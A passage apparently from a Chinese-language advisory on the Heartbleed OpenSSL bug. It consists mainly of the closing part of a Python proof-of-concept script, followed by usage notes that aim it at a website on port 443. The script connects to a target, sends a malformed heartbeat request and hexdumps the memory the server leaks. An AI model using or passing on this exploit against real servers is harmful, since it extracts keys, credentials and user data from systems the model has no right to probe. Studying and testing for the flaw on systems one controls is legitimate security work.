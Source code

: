 	        if typ == 24:
	            print 'Received heartbeat response:'
	            hexdump(pay)
	            if len(pay) > 3:
	                print 'WARNING: server returned more data than it should - server is vulnerable!'
	            else:
	                print 'Server processed malformed heartbeat, but did not return any extra data.'
	            return True
	 
	        if typ == 21:
	            print 'Received alert:'
	            hexdump(pay)
	            print 'Server returned error, likely not vulnerable'
	            return False
	 
	def main():
	    opts, args = options.parse_args()
	    if len(args) < 1:
	        options.print_help()
	        return
	 
	    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	    print 'Connecting...'
	    sys.stdout.flush()
	    s.connect((args[0], opts.port))
	    print 'Sending Client Hello...'
	    sys.stdout.flush()
	    s.send(hello)
	    print 'Waiting for Server Hello...'
	    sys.stdout.flush()
	    while True:
	        typ, ver, pay = recvmsg(s)
	        if typ == None:
	            print 'Server closed connection without sending Server Hello.'
	            return
	        # Look for server hello done message.
	        if typ == 22 and ord(pay[0]) == 0x0E:
	            break
	 
	    print 'Sending heartbeat request...'
	    sys.stdout.flush()
	    s.send(hb)
	    hit_hb(s)
	 
	if __name__ == '__main__':
	    main()
使用方法

py www.wooyun.org --port=443
网站若存在漏洞将返回服务器中的内存数据。

**4、影响范围**

---